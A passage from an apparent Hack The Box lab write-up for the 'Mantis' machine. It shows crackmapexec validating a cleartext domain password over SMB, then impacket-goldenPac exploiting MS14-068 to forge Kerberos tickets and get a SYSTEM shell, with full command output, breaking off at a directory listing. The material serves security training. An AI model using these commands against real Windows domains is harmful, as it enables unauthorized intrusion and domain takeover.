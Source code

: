 We have a cleartext password for **james**, maybe this user can login on the remote machine.

```bash
$ crackmapexec smb 10.129.100.147 -u james -p 'J@m3s_P@ssW0rd!' -d htb.local              
SMB         10.129.100.147   445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.100.147   445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd!
```

# Privilege Escalation

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities.

## MS14-068

The [MS14-068](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/) exploit targets Kerberos and can be used to forge Kerberos tickets using domain user permissions. Lucky for us, [impacket-goldenPac](https://github.com/SecureAuthCorp/impacket/blob/master/examples/goldenPac.py) can be used to automatically exploit the vulnerability.

However, it requieres to use the domain FQDN so let's add the following line to **/etc/hosts**.
```bash
10.129.100.147 mantis htb.local mantis.htb.local
```

Now, we can use `impacket-goldenPac` to get a **SYSTEM** shell and grab our **first** and **second** flags.

```bash
$ impacket-goldenPac 'htb.local/james:J@m3s_P@ssW0rd!@mantis'                                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file HboOvwAY.exe
[*] Opening SVCManager on mantis.....
[*] Creating service gLYd on mantis.....
[*] Starting service gLYd.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>dir c:\users\james\desktop
 Volume in drive C has no label.
 Volume Serial Number is 1A7A-6541

 Directory of c:\users\james\desktop

09/01/2017  02:10 PM    <DIR>          .
09/01/2017  02:10 PM    <DIR>          ..
09/01/2017  10:19 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   4,946,022,400 bytes free

C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 1A7A-6541

```